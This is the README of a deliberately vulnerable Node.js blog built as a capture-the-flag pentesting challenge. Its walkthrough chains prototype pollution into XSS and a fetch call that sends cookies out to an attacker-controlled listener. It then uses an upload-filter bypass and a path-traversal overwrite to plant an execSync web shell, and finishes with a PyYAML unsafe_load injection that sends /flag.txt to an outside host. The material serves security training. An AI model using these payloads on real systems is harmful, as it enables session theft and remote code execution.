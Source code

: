
# DISCLAIMER: This is a pentesting-challenge! Do not expose these containers to the public!
It is designed to showcase common javascript vulnerabilities. So be careful!

# My new BLOG 🎉
I decided to rewrite my blog using the cool new shiny web tech. After a friend showed me that my old php code was vulnerable to some XSS and SQL injection, he said that I would be better off using nodejs!

So here I am. Since I started the previous one, I learned a lot about how to turn websites into SPAs, how to separate the client- and server-side and how to use JWT to authenticate requests. This is going to be sooo much better, eh?

## Setup
If you want to run this challenge locally on your system, you can simply clone this repository and run `docker-compose up --build` inside this folder. This should spawn a couple of containers with one of them listening on port 8080, which you can open in a browser to interact with the application.

## Hints
<details>
  <summary>List of Flags</summary>
  There are two flags in this challenge, located at the root of the node and the python container in a file called `flag.txt`.
</details>
<details>
  <summary>List of vulnerabilities</summary>

  This app contains the following vulnerabilities (that I know of 😬)

proposed way:
  1. client-side prototype pollution
  2. leading to reflected XSS
  3. cookie stealing
  4. broken file upload filters
  5. arbitrary file overwrite
  6. leading to RCE
  7. yaml-injection
  8. leading to RCE in another container

alternatively:
  1. JWT-token forgery
</details>

## Walkthrough

<details>
  <summary>How to 1</summary>

  The application state is stored using query parameters.
  The `web/html/state.js` contains the code how the query/search-string is converted into javascript-object and the other way around.
  This allows use to set arbitrary values on nested structures like `a[b][c]=1`.

  Introducing `__proto__`! The `__proto__` property in javascript is part of the javascript inheritance model. It contains a reference to an object that this object should inherit properties from. The vulnerability is that setting a value like `__proto__[a]=1` causes the property `a` to exist on all javascript objects that share the same prototype. In this case it is simply every object that exists.

  You can try this in the javascript console on the page! Frist, set the URLs query string to `?__proto__[a]=1`. Then create a new object and read it's `a` property: `const x = {}; console.log(x.a)`!

</details>

<details>
  <summary>How to 2</summary>

  Now that we can create _phantom_ properties on all objects, we can try to find code where a certain property value gives us some sort of code execution.
  We cannot simply overwrite function calls, as our way to pollute the prototype only allows string.

  Blog posts are rendered using `iframes`. The post itself contains HTML code that is loaded from a specific URL, included in the posts `src` property. If the post we are trying to access does not exist, the SPA still tries to load the iframe. Using prototype pollution we can now set a "default" `src` value to load if the post does not exist.

  Our URL can now contain any common XSS payload like `__proto__[src]=javascript:alert('XSS')`.

</details>

<details>
  <summary>How to 3</summary>

  Now that we have reflected XSS we can abuse the complaint functionality to have a moderator check out our newly found XSS skills!

  Moderators are usually signed in when clicking on links and we are able to run code on their machine, grab the cookies and send them over to a machine we control!

  The easiest way to send something from javascript to a given IP or URL is using the `fetch`-API. `fetch` is a global function to invoke a web-request. In order to give our target something to connect to, we need to provide a simple tcp-Listener on our own machine. This can be done using the netcat utility on most linux-based OS. Run `nc -l 8081` to start a listener or port 8081.

  Say your local IP is `172.17.0.1` you would want the following javascript to run on the target machine: `fetch('http://172.17.0.1:8081?'+document.cookie)`. This would then be converted to the full URL query-payload:  `__proto__[src]=javascript:fetch('http://172.17.0.1:8081?'%2Bdocument.cookie)`

  Once you opened this URL yourself you should already see the request logged in your netcat window. So, time to rearm netcat and complain about this *totally-innocent-looking* url! If done correctly, you should see the the stolen cookie in your netcat window.

  Last but not least, you can open up your browsers debug console and enter the stolen cookie as a cookie of your own.

</details>

<details>
  <summary>How to 4</summary>

  > I'm in!

  We finally have access to the media upload feature! Those are always great... (to exploit, that is.)

  We can upload actual images just fine, like png, jpg, and gif.   Let's find a way to trick the filter into accepting a file that we can make some use of.

  The server is written in javascript, but javascript files ain't no image!  Let's fix that. Take an arbitrary .js file, prepend the code with `GIF89a = 0;` and voila, you now have turned your code into a "valid" gif file (there are exceptions to this though [search ECMAScript modules and strict mode])!

  But trying to upload the file though the UI is still not working. If we go to the browsers debug console and navigate to the network tab, we can inspect the actual upload request the UI is making to the server. Looking closely at what gets send, we can see a `content-type` header that is still showing `application/javascript`! Let's fix that. First, right click the network request in the list and select `copy -> as fetch`. Now, paste it back into the javascript console below and adjust the header to show `image/gif`. Once you hit enter, the request should go through and our file is now available in the `/media` folder.

</details>

<details>
  <summary>How to 5</summary>

  Now that we can upload javascript code, how can we make use of it? We need another vulnerability! One to overwrite arbitrary files in the projects source code, so we can implant our own version of the code into the application.

  To do so, we make use of the fact, that the uploaded files name is url-decoded prior to writing to the disk. This means that url-encoding our path allows us to write content anywhere on the filesystem where the user has permission to write.

  Furthermore we can actually take a look at the source code of the application and create our malicious upload to replace an existing source-file, so it does not harm the applications regular behavior.

  We really only have **one try**, because once we overwrite a file in a bad way, the application might get stuck in a **crash loop**.

  Luckily there is a lost `test.js` file dangling in the projects root that does not seem to do anything, but it is loaded into runtime through `index.js`. Perfect for us to put our payload! Almost as if the author intended us to find it...

  Example RCE-Payload `test.js`:
  ```js
  GIF89a = 0;
  const { complain } = require('./complain.js');
  const { execSync } = require('child_process');

  complain.get('/rce', (req,res)=>{
    res.send(execSync(req.query.cmd).toString('utf-8'));
  });
  ```

  This payload hooks itself into the webserver through the complain module and would allow us to to run `GET /api/?cmd=pwd` to return the output of any shell command back to us.

  With this setup, we can now read the contents of the `/flag.txt` that is located inside the container and score our first flag!

</details>

<details>
  <summary>How to 6</summary>

  Last but not least, we need to find a way for the nodejs runtime to actually load our modified version of the files.

  We can do so easily by making the server crash. Once it is down, the docker engine will automatically restart the container with all the changes made to it still in place.

  There is one way to crash the server that is easy to trigger when uploading an invalid file that does not result in a "mimetype" to be detected by the server. In this case the server tries to read the type property anyway, resulting in a crash.

  Uploading a simple plain-text file should work fine for this purpose.

</details>

<details>
  <summary>How to 7</summary>

  To continue our journey through this stack, we now need to move laterally into another container where the final flag can be found.

  From the source-code we know that we have a python process, that repeatedly accesses the database to plot a graph with the view_count that gets stored alongside each post. This view_count is an integer, right? Perfect to store in a yaml-array and plot on a graph.

  But now that we have full access to the nodejs application, we can easily modify the database-schema to contain any data that we might want to use to attack the application reading it. In our case, we can use this to inject a malicious yaml-payload. All we need to do is to modify the database-scheme to allow text in the view_count column and inject our payload into one of the posts view_count.

  First
  ```SQL
    ALTER TABLE blog.posts CHANGE view_count view_count TEXT NOT NULL;
  ```
  and now to place our exploit
  ```SQL
    UPDATE `blog`.`posts` SET `view_count` = '<our exploit code here>' WHERE (`id` = '3');
  ```

  In order to not break the structure of the yaml-file that we are injecting to, we need to make sure that the syntax remains correct.
  One example of an injection that does not break the syntax would be
  ```SQL
    UPDATE `blog`.`posts` SET `view_count` = 'test: "I am an object with a string property called test"' WHERE (`id` = '3');
  ```

</details>

<details>
  <summary>How to 8</summary>
  Next we need some payload that actually causes the python-code to leak the final flag. A basic example yaml-injection for python is this:

  ```yaml
    test: !!python/object/apply:eval
      - print("Hi World!")
  ```

  *note: This only works when using the unsafe_load function within pyyaml, which is being used in our target application*

  In order to actually leak the flag, we need to send it over the network. So the payload we can use to do this looks like this:
  ```yaml
    test: !!python/object/apply:eval
      - exec('from urllib import request; request.urlopen("http://172.17.0.1:8081?q="+open("/flag.txt").readline())')
  ```

  Be careful when adding the payload to the database to actually keep the syntax of the resulting yaml in-tact. The value of view_count is appended to the yaml with the prefix `  - ` followed by `\n`. This means that when using multiple lines in the payload, like we do above, you need to have 4 spaces ahead of the `- exec` in the second line.

  yay, second flag.
</details>
